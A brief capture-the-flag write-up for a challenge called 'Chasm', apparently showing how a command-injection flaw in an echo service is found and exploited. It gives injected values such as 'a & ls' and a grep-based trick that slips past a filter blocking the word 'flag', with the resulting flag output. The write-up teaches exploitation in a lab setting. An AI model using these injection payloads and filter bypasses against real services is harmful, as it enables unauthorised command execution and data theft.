 # Chasm

* Looks like we can inject any command and get output!
* After running `a & ls` command, I found that there is `flag.txt` file in that directory.
* Then I tried reading `flag.txt` but it gave error. Because the `server.py` contains one condition, if command contains `flag` then don't execute it.
* We know the flag's format. So we can use grep on this directory to get the flag!
    > `a & grep -r "LS{" .`
    * Output  
    ```
    ECHO: a  
    ./flag.txt:LLS{dangerous_echos_in_this_chasm}
    ```
